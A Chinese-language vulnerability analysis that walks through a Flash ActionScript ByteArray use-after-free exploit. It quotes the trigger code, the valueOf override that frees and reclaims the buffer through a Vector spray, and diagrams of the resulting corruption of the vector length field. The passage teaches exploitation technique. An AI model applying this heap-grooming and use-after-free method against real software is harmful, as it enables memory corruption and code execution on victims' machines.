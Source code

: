 ```
_ba = a[i];
                    // call valueOf() and cause UaF memory corruption 
                    _ba[3] = new Clasz();

```

这一步是触发漏洞的关键，由于ByteArray的元素类型是Byte，当把Clasz类赋值给ByteArray[3](http://drops.javaweb.org/uploads/images/af29e9bb96f254ba324bce79d7261cfa904a6dae.jpg)时，AVM会试图将其转化为Byte，此时Clasz的valueOf函数将被调用：

```
prototype.valueOf = function()
        {
            ref = new Array(5);
            collect.push(ref);

            // realloc
            _ba.length = 0x1100;

            // use after free
            for (var i:int; i < ref.length; i++)
                ref[i] = new Vector.<uint>(0x3f0);

            return 0x40
        }

```

在valueOf函数中，最关键的一部是更改了ByteArray的长度，将其设置成为0x1100，这个操作将会触发ByteArray内部buffer的重新分配，旧的buffer（大小为0x1000）将会被释放。紧接着exploit代码会分配若干个vector对象，每个vector同样占用0x1000字节的内存，试图去重新使用已经释放的ByteArray buffer的内存。

valueOf函数返回0x40，然后0x40会被写入`buffer[3]`这里，如果逻辑正确，那么此处应该写入的是新分配的buffer；然而由于代码漏洞，这里写入的已经释放的0x1000大小的旧buffer，于是事实上写入的是vector对象的头部，整个过程如下：

1 ByteArray创建并设置长度0xfe0:

```
old buffer      |                                               |
                0                                               0x1000

```

2 设置`_ba[3]`，调用valueOf，在valueOf中设置ByteArray.length = 0x1100，此时old buffer被释放

```
old buffer (Freed)      |                                               |
                        0                                               0x1000

```

3 然后0x1000大小的vector占据old buffer内存，前4个字节是vector的长度字段：

```
Vector                  | f0 03 00 00                          |
                        0                                       0x1000

```
